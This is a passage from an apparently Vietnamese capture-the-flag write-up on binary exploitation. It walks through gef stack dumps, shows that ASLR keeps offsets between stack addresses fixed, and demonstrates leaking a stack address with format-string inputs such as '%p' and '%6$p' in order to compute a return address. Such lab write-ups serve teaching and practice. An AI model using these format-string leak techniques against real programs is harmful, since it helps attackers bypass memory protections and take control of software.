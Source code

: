 Trên stack cũng chứa đầy những con trỏ trỏ đến một ô nhớ nào đó trên stack, tức là một ô nhớ chứa địa chỉ của một ô nhớ khác trên stack (Sound confusing eh ?). Debug chương trình và đặt breakpoint tại hàm `main` ta sẽ thấy được điều này
```bash
gef➤  x/20gx $rbp
0x7fffffffde40: 0x0000000000000000  0x00007ffff7deb0b3
0x7fffffffde50: 0x00007ffff7ffc620  0x00007fffffffdf38
0x7fffffffde60: 0x0000000100000000  0x0000000000400687
0x7fffffffde70: 0x0000000000400730  0xab124923a67f8c7e
0x7fffffffde80: 0x00000000004005a0  0x00007fffffffdf30
0x7fffffffde90: 0x0000000000000000  0x0000000000000000
0x7fffffffdea0: 0x54edb6dc1adf8c7e  0x54eda69ec6b18c7e
0x7fffffffdeb0: 0x0000000000000000  0x0000000000000000
0x7fffffffdec0: 0x0000000000000000  0x0000000000000001
0x7fffffffded0: 0x00007fffffffdf38  0x00007fffffffdf48
```
2 ô nhớ cuối cùng được in ra đang chứa địa chỉ của 2 ô nhớ trên stack
```bash
0x7fffffffded0: 0x00007fffffffdf38  0x00007fffffffdf48
```
Vì ở host ASLR sẽ được bật, nên ta sẽ bật ASLR và debug lại chương trình
```bash
gef➤  x/20gx $rbp
0x7ffd53335f90: 0x0000000000000000  0x00007f1eed7ba0b3
0x7ffd53335fa0: 0x00007f1eed9c5620  0x00007ffd53336088
0x7ffd53335fb0: 0x0000000100000000  0x0000000000400687
0x7ffd53335fc0: 0x0000000000400730  0x9cb5dd652d089fe9
0x7ffd53335fd0: 0x00000000004005a0  0x00007ffd53336080
0x7ffd53335fe0: 0x0000000000000000  0x0000000000000000
0x7ffd53335ff0: 0x634f7b0392489fe9  0x628807926dc69fe9
0x7ffd53336000: 0x0000000000000000  0x0000000000000000
0x7ffd53336010: 0x0000000000000000  0x0000000000000001
0x7ffd53336020: 0x00007ffd53336088  0x00007ffd53336098
```
Để ý rằng các địa chỉ đã thay đổi, nhưng offset giữa những ô nhớ thì vẫn giữ nguyên
```bash
0x7fffffffded0: 0x00007fffffffdf38  0x00007fffffffdf48
```
-> 0x00007fffffffdf48 - 0x00007fffffffdf38 = 0x10
```bash
0x7fffffffded0: 0x00007fffffffdf38  0x00007fffffffdf48
```
-> 0x00007ffd53336098 - 0x00007ffd53336088 = 0x10

Vậy ta chỉ việc leak 1 địa chỉ nào đó trên stack, sau đó tìm offset giữa địa chỉ đó và địa chỉ của biến `local_78` và ta sẽ có được địa chỉ để return về.

Ta sẽ tắt ASLR và chạy lại chương trình. Ta thử nhập 10 "%p" vào `fgets` đầu tiên xem chúng ta sẽ nhận được những gì
```bash
%p %p %p %p %p %p %p %p %p %p
0x602691 (nil) 0x6026ae 0x6022a0 0x7c 0x7fffffffdf38 0x100000000 (nil) (nil) 0x400040
```
Ta thấy tại %p thứ 6 là địa chỉ của 1 ô nhớ trên stack ta có thể sử dụng địa chỉ này để tính toán offset đến biến `local_78`. Có thể dùng "%6$p" để chỉ lấy giá trị tại %p thứ 6.
